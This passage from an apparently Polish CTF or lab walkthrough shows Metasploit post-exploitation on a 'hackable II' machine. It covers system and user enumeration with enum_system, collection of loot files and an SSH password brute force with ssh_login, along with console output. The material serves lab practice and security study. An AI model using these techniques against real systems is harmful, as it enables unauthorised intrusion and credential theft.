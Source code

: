 ```bash
msf6 exploit(multi/handler) > use post/linux/gather/enum_system
msf6 post(linux/gather/enum_system) > show options

Module options (post/linux/gather/enum_system):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf6 post(linux/gather/enum_system) > set session 1
session => 1
msf6 post(linux/gather/enum_system) > run

[!] SESSION may not be compatible with this module (missing Meterpreter features: core commands)
[+] Info:
[+]     Ubuntu 16.04.7 LTS
[+]     Linux ubuntu 4.4.0-194-generic #226-Ubuntu SMP Wed Oct 21 10:19:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
[+]     Module running as "www-data" user
[*] Linux version stored in /root/.msf4/loot/20210729214801_default_172.16.1.244_linux.enum.syste_823874.txt
[*] User accounts stored in /root/.msf4/loot/20210729214801_default_172.16.1.244_linux.enum.syste_792608.txt
[*] Installed Packages stored in /root/.msf4/loot/20210729214801_default_172.16.1.244_linux.enum.syste_940047.txt
[*] Running Services stored in /root/.msf4/loot/20210729214801_default_172.16.1.244_linux.enum.syste_790666.txt
[*] Cron jobs stored in /root/.msf4/loot/20210729214801_default_172.16.1.244_linux.enum.syste_485080.txt
[*] Disk info stored in /root/.msf4/loot/20210729214801_default_172.16.1.244_linux.enum.syste_296708.txt
[*] Logfiles stored in /root/.msf4/loot/20210729214801_default_172.16.1.244_linux.enum.syste_341841.txt
[*] Setuid/setgid files stored in /root/.msf4/loot/20210729214801_default_172.16.1.244_linux.enum.syste_709424.txt
[*] CPU Vulnerabilities stored in /root/.msf4/loot/20210729214802_default_172.16.1.244_linux.enum.syste_388295.txt
[*] Post module execution completed
msf6 post(linux/gather/enum_system) > loot
```
komenda _loot_ pozwala nam wyświetlić, to co ściągnęliśmy.
{: .text-justify}
w pliku **20210729214957_default_172.16.1.244_linux.enum.syste_656649.txt** mamy użytkowników z podatnej maszyny
{: .notice--info}
moduł **post/linux/gather/enum_users_history** sciagnie nam plik **Sudoers**
{: .notice--info}
Moduł **auxiliary/scanner/ssh/ssh_login** pozwala nam dosyć pobieżnie przeskanować użytkowników i przy okazji ustawić sesję, jeżeli login i hasło będą poprawnę. Również może się przydać do ustawienia sesji w **Metasploicie**, jeżeli znamy tylko login i hasło. Sprawdźmy czy użytkownicy mają jakieś słabe hasła na systemie. Niestety ten moduł jest dosyć wolny, ale może coś znajdziemy. W parametrach podajemy, żeby używał hasła jako loginu, również podajemy ścieżkę do pliku gdzie zostali zapisani użytkownicy z obrazu **hackable II**. _Verbose_ należy ustawić na _yes_, wtedy widać na bieżąco pracę modułu.
{: .text-justify}
```bash
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 172.16.1.244:22 - Starting bruteforce
[-] 172.16.1.244:22 - Failed: 'root:root'
[!] No active DB -- Credential data will not be saved!
[-] 172.16.1.244:22 - Failed: 'root:'
[-] 172.16.1.244:22 - Failed: 'daemon:daemon'
[-] 172.16.1.244:22 - Failed: 'daemon:'
```
